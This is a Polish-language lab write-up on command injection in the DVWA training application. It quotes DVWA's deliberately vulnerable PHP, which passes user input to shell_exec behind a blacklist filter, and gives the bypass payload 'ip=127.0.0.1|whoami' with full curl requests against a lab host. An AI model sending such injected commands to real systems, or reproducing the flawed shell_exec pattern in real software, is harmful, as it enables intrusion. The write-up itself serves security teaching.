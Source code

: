 # Command Injection
## Opis techniki
<blockquote>
Wstrzyknięcie poleceń to podatność, która występuje, gdy aplikacja przekazuje niebezpieczne dane dostarczone przez użytkownika (formularze, ciasteczka, nagłówki HTTP itp.) do powłoki systemowej. Pozwala to atakującemu na wykonanie dowolnych poleceń bezpośrednio w systemie operacyjnym hosta – początkowo z uprawnieniami usługi webowej.

Oto kilka kluczowych cech i zagrożeń związanych z Command Injection:
* Niewłaściwa walidacja danych wejściowych: Podatność na Command Injection pojawia się, gdy aplikacja webowa nie waliduje lub nie filtruje prawidłowo danych wejściowych, które są następnie używane do formowania i wykonania poleceń systemowych. Atakujący może wprowadzić złośliwe polecenia, które są potem uruchamiane przez system.
* Egzekucja złośliwych poleceń systemowych: Głównym zagrożeniem związanym z Command Injection jest możliwość egzekucji poleceń przez atakującego w kontekście systemu operacyjnego, na którym działa aplikacja.
* Zależność od uprawnień procesu: Skutki ataku Command Injection zależą w dużej mierze od uprawnień procesu, który wykonuje złośliwe polecenia. Jeżeli proces ma wysokie uprawnienia, na przykład jest uruchamiany jako root lub administrator, atakujący może zdobyć pełną kontrolę nad systemem.
</blockquote>

## Zapobieganie
<blockquote>
plikacje powinny unikać uruchamiania poleceń systemowych, jeśli to możliwe. Jeśli jest to nieuniknione, powinny używać interfejsów API, które pozwalają na silną parametryzację poleceń i nie pozwalają na łączenie poleceń ani przekierowanie.
</blockquote>

## DVWA labs
- [DVWA Command Injection #1 - Medium](#dvwa-Command-Injection-1---medium)
- [DVWA Command Injection #2 - High](#dvwa-Command-Injection-2---high)

<br/>

## DVWA Command Injection #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie znaków "&&" oraz ";"

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/exec`<br/>
Parametr POST: ip=127.0.0.1|whoami

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 37' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/exec/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8’’bg59jl012q96i1sjk4p9ieo0; security=medium' --data-binary $'ip=127.0.0.1+%7C+whoami&Submit=Submit'  $'http://10.10.236.56/vulnerabilities/exec/'
```

#### Request i efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/CMD_Injection_med.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy whoami.")

Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy "whoami", co widać w odpowiedzi serwera - użytkownik wykonujący wstrzykniętą komendę to "www-data".

<br/>
<br/>

## DVWA Command Injection #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie dużo większej ilości znaków/ciągów znaków związanych z syntax'em powłoki

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/exec`<br/>
Parametr POST: ip=127.0.0.1|whoami

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \ -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 35' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/exec/' -H $'Upgrade-Insecure-Requests: 1'  -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high'  --data-binary $'ip=127.0.0.1%7Cwhoami&Submit=Submit' $'http://10.10.236.56/vulnerabilities/exec/'
```

#### Request i efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/CMD_Injection_high.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy whoami.")

<br/>

Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy "whoami", co widać w odpowiedzi serwera - użytkownik wykonujący wstrzykniętą komendę to "www-data".
